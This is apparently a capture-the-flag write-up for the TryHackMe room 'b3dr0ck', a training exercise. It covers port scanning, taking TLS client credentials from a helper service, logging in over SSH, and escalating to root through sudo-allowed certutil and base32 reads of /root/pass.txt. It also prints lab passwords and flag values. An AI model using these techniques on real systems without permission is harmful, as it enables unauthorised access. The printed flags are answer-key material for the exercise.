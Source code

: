 # b3dr0ck THM writeup
<a href = "https://tryhackme.com/room/b3dr0ck"> https://tryhackme.com/room/b3dr0ck </a>

<hr>
<h2> Question 1: flag 1</h2>
I already got some hints from the details in the tryhackme page<br>

```
He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
```

So lets start, nmap scan as usual recon:
```
$ nmap 10.10.246.196
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:17 EDT
Nmap scan report for 10.10.246.196
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Trying Port 9009 in broweser, it returned 

```Unsupported or unrecognized SSL message```

<br>

So as i know if i try to load up the web server on port 80, <br>
it will redirect me to port 4040 <br>
On the website Barney doesn't seems to know what he is doing, and he also mentions
that: **"Looks like it started something else, but I'm not sure how to turn it off!
        He said it was from the toilet and OVER 9000!"**<br>


So there are more ports open than what i currently have<br>
Running nmap again reveals another port that i didnt knew about, **54321**
```
$ nmap 10.10.246.196 -p-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:21 EDT
Nmap scan report for 10.10.246.196
Host is up (0.061s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 33.12 seconds

```
Trying port **54321** returned ```Error: 'undefined' is not authorized for access.```
<br>
<br>
After some messing around, turns out i can connect to port 9009 via netcat:
```
$ ncat 10.10.246.196 9009 


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? 
```
Im looking for flags and passwords!
```
Sorry, unrecognized request: 'password'
You use this service to recover your client certificate and private key
```
The output message says i can recover certificate and a private key
```
What are you looking for? certificate
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----


What are you looking for? key
Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----

```
Okay, i can use this key and certificate via openssl like this(guessing port 54321 because the 9009 didn't worked):
```
openssl s_client -connect 10.10.246.196:54321 -key id_rsa -cert certificate 
```
And after connection, i was able to get Barney's password:
```
Welcome: 'Barney Rubble' is authorized.
b3dr0ck> 
Unrecognized command: ''
This service is for login and password hints
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```
I have no other choice than trying this password via ssh
```
$ ssh barney@10.10.246.196
[...]
barney@10.10.246.196's password: 
barney@ip-10-10-246-196:~$ 
```
Good, now i have the first flag!
```
barney@ip-10-10-246-196:~$ cat barney.txt
THM{f05780f08f0eb1de65023069d0e4c90c}
```
<hr>
<h2> Question 2: Fred's password</h2>
Following the tasks, i have to get access to freds account, and from fred's account, to root!

Executing sudo -l command, returned that i can run certutil as root without password:
```
barney@ip-10-10-246-196:~$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on ip-10-10-246-196:
    (ALL : ALL) /usr/bin/certutil
```
Checking the tool usage, i can generate new keypair for users
```
barney@ip-10-10-246-196:~$ certutil
Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```
This gave me an idea to probably do the same as with Barney's account, creating a TLS connection using the two keys?
```
barney@ip-10-10-246-196:~$ sudo certutil fred fred
Generating credentials for user: fred (fred)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----
```
Saving the output to files and trying the connection:
```
$ openssl s_client -connect 10.10.246.196:54321 -cert certificate -key id_rsa
Connecting to 10.10.246.196
CONNECTED(00000003)
[...]
read R BLOCK
Welcome: 'fred' is authorized.
```
And typing help again, it will show freds account password:
```
b3dr0ck> help
Password hint: YabbaDabbaD0000! (user = 'fred')
```
I got Fred's account password, and also the answer to question 2! **YabbaDabbaD0000!**
```
$ ssh fred@10.10.246.196
fred@10.10.246.196's password: 
fred@ip-10-10-246-196:~$ 
```
<hr>
<h2> Question 3: flag 2</h2>

And now i can easly get the second flag too!
```
fred@ip-10-10-246-196:~$ cat fred.txt
THM{08da34e619da839b154521da7323559d}
```
<hr>
<h2> Question 4: flag 3(root)</h2>
Trying again some basic PE mehtods, executing sudo -l command returns that i can run base64 and base32 as root for a specific file

```
fred@ip-10-10-246-196:~$ sudo -l
Matching Defaults entries for fred on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on ip-10-10-246-196:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```
Both command will read the file and encodes it as base64/32<br>
Probably it has the password encoded as base64 or base32<br>
```
fred@ip-10-10-246-196:~$ sudo /usr/bin/base32 /root/pass.txt
JRDEWRKDGUZFUS2SINMFGV2LLBEVUVSVGQZUWSSHJZGVQVKSJJJUYRSXKZJTKMSPKBFECWCVKRGE
4SSKKZKTEUSDK5HEER2YKVJFITCKLJFUMU2TLFFQU===
```
Trying with CyberChef, i decoded from base32 to text, but the output looks like its still encoded
<img src = "cyberchef1.png">
<br>
Its probably double, or triple encoded by base64/32
<br><br>
After trying for a while, it turns out I can decode it two times with base32 and once with base64, this finally gave me an MD5 hash<br>
```Base32 -> Base32 -> Base64 -> MD5```
<img src = "cyberchef2.png">
<br><br>
Lets try cracking the MD5 hash with CrackStation!
<img src = "crackstation.png">
<br>
Success! Lets hope this is the root password

```
fred@ip-10-10-246-196:~$ su - root
Password: 
root@ip-10-10-246-196:~# 
```
Victory! Lets read the root.txt!
```
root@ip-10-10-246-196:~# cat /root/root.txt
THM{de4043c009214b56279982bf10a661b7}
```
